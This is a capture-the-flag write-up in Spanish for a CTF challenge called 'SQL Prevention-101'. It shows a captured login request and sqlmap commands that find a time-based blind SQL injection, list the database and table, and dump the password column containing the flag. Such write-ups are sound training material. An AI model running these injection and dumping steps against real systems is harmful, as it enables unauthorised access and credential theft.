


SQL Prevention-101

Just try to hack my [login](https://sql-prevention-101.acmcyber.com/) with account "admin", I've taken all the precautions that I can...

Author: Gary

Tags: sql

---

Vamos a la URL y tal como dice la descripción es un login, probamos con credenciales random y obtenemos:


Aunque nos dice que no es de sqli, vamos a probar con sqlmap, primero con BurpSuite nos guardamos el request:

```
POST / HTTP/2
Host: sql-prevention-101.acmcyber.com
Content-Length: 29
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://sql-prevention-101.acmcyber.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://sql-prevention-101.acmcyber.com/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9

username=admin&password=nimda
```

Para que esto no quede tan largo se omiten la mayoria de las salidas de sqlmap:

Para obtener la base de datos usamos:

`sqlmap -r gary.req --current-db`

Lo cual nos retorna, que tipo de base de datos se usa, 1 ataque(time-based blind) y cual es la base de datos actual: appdb

Para saber las tablas de appdb:

`sqlmap -r gary.req -D appdb --tables`

```bash
[06:37:53] [INFO] fetching tables for database: 'appdb'
[06:37:53] [INFO] fetching number of tables for database 'appdb'
[06:37:53] [INFO] retrieved: 1
[06:38:10] [INFO] retrieved: user
Database: appdb
[1 table]
+------+
| user |
+------+
```

Le pedimos las columnas:

`sqlmap -r gary.req -D appdb -T user --dump`

Nos retorna que la primer columna es password

Pedimos ver el contenido de la columna password:

`sqlmap -r gary.req -D appdb -T user -C password --dump`

```bash
Database: appdb
Table: user
[1 entry]
+------------------------+
| password               |
+------------------------+
| flag{curse_you_mysql!} |
+------------------------+
```
Por las dudas probamos con las credenciales admin/flag{curse_you_mysql!}



Flag: flag{curse_you_mysql!}